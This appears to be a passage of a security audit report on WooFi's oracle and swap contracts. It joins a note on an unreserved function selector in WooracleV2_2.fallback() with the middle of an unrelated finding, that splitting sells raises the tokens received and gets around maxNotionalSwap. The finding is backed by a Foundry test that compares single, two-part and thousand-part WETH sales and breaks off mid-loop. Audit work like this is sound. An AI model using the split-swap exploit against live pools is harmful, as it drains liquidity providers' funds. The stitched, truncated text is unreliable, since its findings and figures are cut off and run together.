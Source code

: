 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
g2 = 10 * 0.9 * 0.01 = 0.09
deltaQuote2 = 10 * 0.9 * (1 - (0.1 + 0.09)) = 7.29
**received 7.29 quote tokens in second sell of 10 base tokens**

**in total 7.29 + 8 = 15.29 quote tokens received! however, if we were to swap 10 tokens in one go we would end up with 14 quote tokens!** 

This also means that swaps that are not possible because of `maxNotionalSwap` can be divided into partial swaps and the end result would be even higher!
If the `maxNotionalSwap` is 100K USDC, someone can swap 2 times 50K USDC to receive even higher amount of quote tokens! Hence, the exploit that happent to WooFi would still be possible and even worse since the partial swaps are better than single go.

Here a test where it compares selling 1000 WETH in one go, 500-500 and 1-1-1-... 1000 times in a single tx:
```solidity
// @dev fee is "100", coeff = 0.000000001 * 1e18, spread = 0.001 * 1e18 as in the tests
    // setting fee to a different value is not relevant, attack is still there, just slighly less profitable
    
    // @dev sell 1000 in single tx
    function test_SellBase1Part() public {
        uint sellWethAmount = 1000 * 1e18;
        _fundAndApproveAdminAndTapir(1000_0000 * 1e6, sellWethAmount);

        vm.prank(TAPIR);
        uint receivedUSDC = router.swap(WETH, USDC, sellWethAmount, 0, payable(TAPIR), TAPIR);

        console.log("Received USDC", receivedUSDC);
        console.log("contract usdc balance", IERC20(USDC).balanceOf(address(pool)));
    }

    // @dev sell 500-500 in single tx
    function test_Sell2Parts() public {
        uint sellWethAmount = 1000 * 1e18;
        _fundAndApproveAdminAndTapir(1000_0000 * 1e6, sellWethAmount);
        
        uint cumulative;
        for (uint i; i < 2; ++i) {
            // sell 5 wei dust
            vm.prank(TAPIR);
            uint receivedUSDC = router.swap(WETH, USDC, sellWethAmount / 2, 0, payable(TAPIR), TAPIR);
            (uint128 price, ) = oracle.woPrice(WETH);
            cumulative += receivedUSDC;
        }

        console.log("Received USDC", cumulative);
        console.log("contract usdc balance", IERC20(USDC).balanceOf(address(pool)));
    }

    // @dev sell 1-1-1-1.... in single tx
    function test_Sell1000Parts() public {
        uint sellWethAmount = 1000 * 1e18;
        _fundAndApproveAdminAndTapir(1000_0000 * 1e6, sellWethAmount);
        
        uint cumulative;
        for (uint i; i < 1000; ++i) {
            // sell 5 wei dust
            vm.prank(TAPIR);
            uint receivedUSDC = router.swap(WETH, USDC, sellWethAmount / 1000, 0, payable(TAPIR), TAPIR);
            (uint128 price, ) = oracle.woPrice(WETH);
````